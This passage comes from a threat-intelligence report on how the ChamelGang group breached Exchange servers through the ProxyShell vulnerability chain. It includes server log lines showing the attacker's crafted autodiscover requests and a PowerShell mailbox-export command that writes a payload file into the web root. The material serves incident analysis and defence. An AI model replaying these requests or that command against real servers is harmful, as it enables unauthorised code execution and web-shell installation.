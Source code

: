 2.2 Initial infection vector

		To penetrate the victim's infrastructure, the attackers exploited a chain of related vulnerabilities in Microsoft Exchange (CVE-2021-34473, CVE-2021-34523, CVE-2021-31207) called ProxyShell. It first became known from a report presented at the the Black Hat conference on August 5, 2021 (the next day the researcher published a detailed article), after which various APT groups began to actively exploit this chain of vulnerabilities. The first  POC scripts appeared on GitHub on August 13, 2021.
	

		The stages of ProxyShell exploitation by ChamelGang are as follows:
	


		CVE-2021-34473—bypassing the ACL. The vulnerability allows attackers to specify the mailbox address through the request string in the EwsAutodiscoverProxyRequestHandler handler. This, in turn, grants them access to an arbitrary URL with NT AUTHORITY\SYSTEM rights.
					
17.08.2021	1:20:31	W3SVC1	-	-	POST	/autodiscover/autodiscover.json	@VICTIM.COM:444/autodiscover/autodiscover.xml?&Email=autodiscover/autodiscover.json?@VICTIM.COM	443	-	103.80.134.159	HTTP/1.1	ExchangeServicesClient/0.0.0.0	-	-	-	200	0	0	545
			
		


		CVE-2021-34523—privilege reduction. Since there is no mailbox for the user NT AUTHORITY\SYSTEM, at this stage, the attackers get a valid domain SID of the local administrator. In the future, the SID is used for the X-Rps-CAT parameter.
					
17.08.2021	1:20:34	W3SVC1	-	-	POST	/autodiscover/autodiscover.json	@VICTIM.COM:444/mapi/emsmdb/?&Email=autodiscover/autodiscover.json?@VICTIM.COM	443	-	103.80.134.159	HTTP/1.1	Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10_13_6)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/69.0.3497.81+Safari/537.36	-	-	-	200	0	0	587
			
		


		At this stage, attackers create a draft letter through the Exchange Web Service (EWS). The POST request passes a SOAP element with a draft message.
					
17.08.2021	1:20:41	W3SVC1	-	-	POST	/autodiscover/autodiscover.json	@VICTIM.COM:444/ews/Exchange.asmx?&Email=autodiscover/autodiscover.json?@VICTIM.COM	443	-	103.80.134.159	HTTP/1.1	Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10_13_6)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/69.0.3497.81+Safari/537.36	-	-	-	200	0	0	623
			
		
  Figure 8. Drafts with a payload in the mailbox 


		CVE-2021-31207—the ability to write to a file with subsequent remote code execution. Attackers use PowerShell cmdlets: New-ManagementRoleAssignment to get the role of importing and exporting mailboxes and New-MailboxExportRequest to export the mailbox to the web server directory.
					
17.08.2021	1:20:46	W3SVC1	-	-	POST	/autodiscover/autodiscover.json	@VICTIM.COM:444/PowerShell/?&X-Rps-CAT=[BASE64_REDACTED]&Email=autodiscover/autodiscover.json?@VICTIM	443	-	103.80.134.159	HTTP/1.1	Python+PSRP+Client	-	-	-	200	0	0	1035
			
		


		Next, a mail PST file with the signature (magic) !BDN (0x21, 0x42, 0x44, 0x4E) and the .aspx extension is uploaded to the file system. 
					
"New-MailboxExportRequest", "-Mailbox \"Administrator\" -IncludeFolders (\"#Drafts#\") -ContentFilter \"(Body -like '*468749030*')\" -ExcludeDumpster \"True\" -FilePath \"\\\\127.0.0.1\\C$\\inetpub\\wwwroot\\aspnet_client\\468749030.aspx\" -Name \"468749030\""
			